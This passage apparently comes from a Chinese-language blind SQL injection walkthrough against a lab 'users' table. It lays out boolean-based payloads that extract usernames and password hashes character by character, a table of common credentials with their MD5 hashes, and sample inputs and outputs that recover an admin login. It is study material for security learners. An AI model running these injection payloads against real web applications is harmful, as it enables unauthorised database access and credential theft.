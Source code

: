 ==>password字段中第1个字段值的字符长度=32
猜测这么长的密码位数，可能是用来md5的加密方式保存，通过手工猜解每位数要花费的时间更久了。

- 方式①：用二分法依次猜解user/password字段中每组字段值的每个字符组成

| user字段-第1组取值                                           |                                                              | password字段- 第1组取值                                      |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 第1个字符                                                    | 1' and ascii(substr((select user from users limit 0,1),1,1))=xxx # | 1' and ascii(substr((select password from users limit 0,1),1,1))=xxx # |
| 第2个字符                                                    | 1' and ascii(substr((select user from users limit 0,1),2,1))=xxx # | 1' and ascii(substr((select password from users limit 0,1),2,1))=xxx # |
| ......                                                       | ......                                                       | ......                                                       |
| 第![n](https://math.jianshu.com/math?formula=n)个字符        | 1' and ascii(substr((select user from users limit 0,1),![n](https://math.jianshu.com/math?formula=n),1))=xxx # | 1' and ascii(substr((select password from users limit 0,1),![n](https://math.jianshu.com/math?formula=n),1))=xxx # |
| **user字段-第2组取值**                                       |                                                              | **password字段-第2组取值**                                   |
| 第1个字符                                                    | 1' and ascii(substr((select user from users limit 1,1),1,1))=xxx # | 1' and ascii(substr((select password from users limit 1,1),1,1))=xxx # |
| 第2个字符                                                    | 1' and ascii(substr((select user from users limit 1,1),2,1))=xxx # | 1' and ascii(substr((select password from users limit 1,1),2,1))=xxx # |
| ......                                                       | ......                                                       | ......                                                       |
| **user字段-第![i](https://math.jianshu.com/math?formula=i)组取值** |                                                              | **password字段-第![i](https://math.jianshu.com/math?formula=i)组取值** |
| 第1个字符                                                    | 1' and ascii(substr((select user from users limit ![i](https://math.jianshu.com/math?formula=i)-1,1),1,1))=xxx # | 1' and ascii(substr((select password from users limit ![i](https://math.jianshu.com/math?formula=i)-1,1),1,1))=xxx # |
| 第2个字符                                                    | 1' and ascii(substr((select user from users limit ![i](https://math.jianshu.com/math?formula=i)-1,1),2,1))=xxx # | 1' and ascii(substr((select password from users limit ![i](https://math.jianshu.com/math?formula=i)-1,1),2,1))=xxx # |
| ......                                                       | ......                                                       | ......                                                       |
| 第![n](https://math.jianshu.com/math?formula=n)个字符        | 1' and ascii(substr((select user from users limit ![i](https://math.jianshu.com/math?formula=i)-1,1),![n](https://math.jianshu.com/math?formula=n),1))=xxx # | 1' and ascii(substr((select password from users limit ![i](https://math.jianshu.com/math?formula=i)-1,1),![n](https://math.jianshu.com/math?formula=n),1))=xxx # |

- 方式②：利用日常积累经验猜测+运气，去碰撞完整字段值的全名

| user     | password | md5($password)                   |
| -------- | -------- | -------------------------------- |
| admin    | password | 5f4dcc3b5aa765d61d8327deb882cf99 |
| admin123 | 123456   | e10adc3949ba59abbe56e057f20f883e |
| admin111 | 12345678 | 25d55ad283aa400af464c76d713c07ad |
| root     | root     | 63a9f0ea7bb98050796b649e85481845 |
| sa       | sa123456 | 58d65bdd8944dc8375c30b2ba10ae699 |
| ......   | ......   | ......                           |

| 输入                                                         | 输出    |
| ------------------------------------------------------------ | ------- |
| 1' and substr((select user from users limit 0,1),1)='admin' #  1' and (select count(*) from users where user='admin')=1 # | exists  |
| 1' and (select count(*) from users where user='admin123')=1 # | MISSING |
| 1' and (select count(*) from users where user='root')=1 #    | MISSING |
| ==>user字段的第1组取值为**admin**                            |         |
| 1' and (select count(*) from users where user='admin' and password='5f4dcc3b5aa765d61d8327deb882cf99')=1 # | exists  |
| 1' and (select count(*) from users where user='admin' and password='e10adc3949ba59abbe56e057f20f883e')=1 # | MISSING |
| ==>user---password字段的第1组取值：**admin**---**password**  |         |
